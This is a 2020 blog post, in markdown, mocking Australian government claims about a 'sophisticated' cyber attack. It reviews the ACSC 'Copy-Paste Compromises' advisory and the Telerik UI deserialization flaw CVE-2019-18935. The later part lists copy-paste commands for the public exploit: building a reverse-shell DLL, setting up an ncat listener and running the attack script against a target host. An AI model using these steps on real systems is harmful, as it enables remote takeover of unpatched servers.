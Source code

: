 ```yaml
---
title: Copy-Paste Compromises
category: infosec
date: 2020-06-19
thumbnail: copypaste-compromises-thumb.png
tags: aussec
description:
---
```


Today I woke up to an organisation-wide email telling me that "Australia is currently being hit by a cyber-attack which is targeting all levels of government, political parties and private businesses". Hey that sounds fun, so I look at the news and see this headline: "[Cyber-attack Australia: sophisticated attacks from ‘state-based actor’, PM says](https://www.theguardian.com/australia-news/2020/jun/19/australia-cyber-attack-attacks-hack-state-based-actor-says-australian-prime-minister-scott-morrison)."

Ok so the government said it. Now as weird as it may seem, this is the first thing I thought when I read that: "Oh so it's probably bullshit then". Our government (but mostly a certain party) has a bad track record of calling things cyber attacks. Back in 2016 they blamed a DDoS attack on taking down the ABS Census website[^1], when in reality people where just, you know... **using it**. 

Apparently we invest absolutely noting in our technology infrastructure, because these absolute mad lads went and blamed another failure on a DDoS attack earlier this year. This time it was people trying to register for Centrelink[^2], which is a little worse then people unable to fill out census forms as instead it affects people who have lost their jobs due to a certain global pandemic and need support.

And while not directly related to cyber security, let me remind you about the NBN. What a bloody farce. Any time the Coalition starts talking about techonology (or anything, really), my brain immediately starts shutting down in fear of getting an aneurysm.

But back to the topic on-hand, unfortunately, or fortunately for me because I seem to enjoy reading postmortems, this time it's actually a cyber attack. According to the previous article: "we know it is a sophisticated state-based cyber actor because of the scale and nature of the targeting and the tradecraft used." 

I won't comment about the "state-based cyber actor", because even though they won't say who it is, it's pretty obvious. So we will take that part out and instead look at how it was "sophisticated [...] because of the scale and nature of the targeting and the tradecraft used." Sophisticated huh? That's interesting. 

The Australian Cyber Security Centre’s (ACSC) published an advisory that details the tactics, techniques and procedures (TTPs) identified during the investigation of this attack. You can read the summary [here](https://www.cyber.gov.au/threats/advisory-2020-008-copy-paste-compromises-tactics-techniques-and-procedures-used-target-multiple-australian-networks). But I'm going to look more at the [PDF](https://www.cyber.gov.au/sites/default/files/2020-06/ACSC-Advisory-2020-008-Copy-Paste-Compromises.pdf) that goes into more detail.

Immediately we read that "the title ‘Copy-Paste Compromises’ is derived from the actor’s heavy use of proof of concept exploit code, web shells and other tools copied almost identically from open source."

Oh no, I'm already spotting a few red flags with this. Let's read that again with a focus on the important parts.

> Heavy use of proof of concept exploit code [...] copied almost identically from open source.

Now look, I didn't expect it to be Stuxnet 2: Electric Boogaloo and have a million zero days, but these are not the words we should be reading when we are looking for a "sophisticated" cyber attack. And it's a little concering that the Australian government (and some businesses, but I expect them to have crap security anyway) are not able to defend against well known, open source vulnerabilities enacted by what seems to be a bunch of script kiddies.

But to be fair, it looks like most of the initial access actually comes from spearphishing people, which is a hard thing to defend against. It's more about education and telling people to stop being stupid than it is about securing your infrastructure. However, I consider social engineering to be cheating because I have social anxiety and am unable to do it, so I'm going to ignore it.

Instead let's look at "exploitation of public facing infrastructure—primarily through the use of remote code execution vulnerability in unpatched versions of Telerik UI." They cite CVE-2019-18935: "Telerik UI - Remote Code Execution via Insecure Deserialization" as one of the most common exploits used. 

Telerik UI for ASP.NET AJAX is a widely used suite of UI components for web applications. It seems `RadAsyncUpload`, a file handler in Telerik UI for ASP.NET AJAX that enables uploading files asynchronously, insecurely deserializes JSON objects in a manner that results in arbitrary remote code execution on the software's underlying host.[^3]

The basic idea of the exploit is that you upload a "mixed mode assembly" DLL using Telerkit UI and specifying it as a "gaget", which is "a class within the executing scope of the application that, as a side effect of being instantiated and modified via setters or field assignment, has special properties that make it useful during deserialization." 

Yeah I don't really know what any of that is either. Anyway, then some funky stuff happens when it attemps to deserialise it and bing bong, you got yourself remote code execution. This is a pretty common way of RCE and probably should have been found eariler, so RadAsyncUpload seems more like **Bad**AsyncUpload to me! Hah!

...

Ok moving on.

In case you are not aware of how easy it is to use exploits like these and because I want to pad this post out, let's take a look at the steps you need to do the exploit:

1. Download the repo: 
```
git clone https://github.com/noperator/CVE-2019-18935.git && cd CVE-2019-18935
```

2. Install the Python environment.
```
python3 -m venv env
source env/bin/activate
pip3 install -r requirements.txt
```

3. Build the reverse shell that they provide for you (need Visual Studio installed).
```
sed -i .bu 's/<HOST>/<HOST>/; s/<PORT>/<PORT>/' rev_shell.c
build_dll.bat rev_shell.c
```

4.  Setup Netcat for callback.
```
sudo ncat -lvp <PORT>
```

4. Run the thing.
```
python3 CVE-2019-18935.py -u <HOST>/Telerik.Web.UI.WebResource.axd?type=rau -v <VERSION> -f 'C:\Windows\Temp' -p sleep_2019121205271355_x86.dll
```

You can practically copy and paste all of this as there were only three things you needed to change:

* The `<HOST>` param: Obviously you need to specify what host your attacking.
* The `<PORT>` param: The port you'll be listening on for the reverse shell.
* The `<VERSION>` param: This is the version of Telerik UI that is being used as newer version have been patched. You can normally find what version it is by checking the HTML, otherwise you can brute-force it.

Most of the time, you'd make your own reverse shell and tailor it for your victim (if you're any good, I never do it because I'm lazy and stupid). But the report says that "most common payloads used by the actor were copies of public proof of concept exploit code for a sleep test and reverse shell binary" which are exactly the ones we just looked at (step 3). 

There's way more in the other sections like Privilege Escalation, Credential Access, etc. But I just wanted a quick look at how "sophisticated" the attack was. And it turns out to be pretty average if I'm to be honest.

This is why I don't do infosec content anymore, it's pretty boring just running the exploits and instead all the fun comes from making/finding them. But I can't do that stuff cus I'm dumb.

Moral of the story: patch your systems and stay in school.

----

[^1]: https://theconversation.com/did-the-census-really-suffer-a-denial-of-service-attack-63755

[^2]: https://www.theguardian.com/australia-news/2020/mar/23/incompetence-attack-mygov-website-did-not-crash-because-of-ddos-cyber-assault-as-stuart-robert-claimed

[^3]: https://know.bishopfox.com/research/cve-2019-18935-remote-code-execution-in-telerik-ui
